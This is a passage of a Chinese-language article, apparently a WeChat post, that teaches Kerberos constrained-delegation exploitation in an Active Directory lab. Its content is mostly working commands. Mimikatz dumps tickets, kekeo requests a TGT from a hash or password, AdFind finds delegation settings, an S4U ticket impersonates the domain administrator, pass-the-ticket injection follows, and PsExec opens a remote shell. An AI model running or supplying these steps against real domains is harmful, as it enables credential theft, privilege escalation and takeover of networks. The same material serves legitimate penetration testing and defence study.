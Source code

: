 （3）约束性委派漏洞利用

如果已经获取开启约束委派主机的权限，而且拥有本地管理员权限，可以直接使用mimikatz工具导出TGT票据：

mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" "exit" >
result.txt

![]()

如果没有导出权限或没有登录主机的权限，但是拥有机械账户的ntlm hash或者普通域用户的ntlm
hash或明文密码，就可以使用kekeo工具申请一张TGT票据：

申请TGT票据语句：

tgt::ask /user:[机械/主机账户名称] /domain:[域名称] /ntlm:[机械/主机账户hash] /ticket:[导出tgt名称]

如果是使用主机账户明文密码就把ntlm改成password即可。

kekeo.exe "tgt::ask /user:pkcn /domain:zack.com /password:123.com" "exit" >
result.txt

![]()

使用AdFind工具，输入域IP地址和域用户名与密码，查询该用户配置了哪些约束委派，看到该域用户允许委派访问user1主机的cifs服务：

AdFind.exe -h DC.zack.com -u pkcn -up 123.com -b "DC=zack,DC=com" -f
"(&(samAccountType=805306368)(msds-allowedtodelegateto=*))" cn
distinguishedName msds-allowedtodelegateto

![]()

使用这张TGT票据获取pkcn域用户的TGS票据，该TGS票据可以冒充域管理administrator用户访问user1主机的cifs服务：

kekeo.exe "tgs::s4u /tgt:TGT_pkcn@ZACK.COM_krbtgt~zack.com@ZACK.COM.kirbi
/user:administrator /service:cifs/user1.zack.com" "exit" > result.txt

![]()

使用mimikatz工具将TGS票据导入内存，导入成功后看到可以免密查看user1用户的C盘：

mimikatz.exe "kerberos::ptt
TGS_administrator@ZACK.COM_cifs~user1.zack.com@ZACK.COM.kirbi" "exit" >
result.txt

![]()![]()

使用PsExec64.exe工具以域管理员的身份调用user1主机的cmd窗口：

PsExec64.exe\\\user1.zack.comcmd.exe

![]()

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

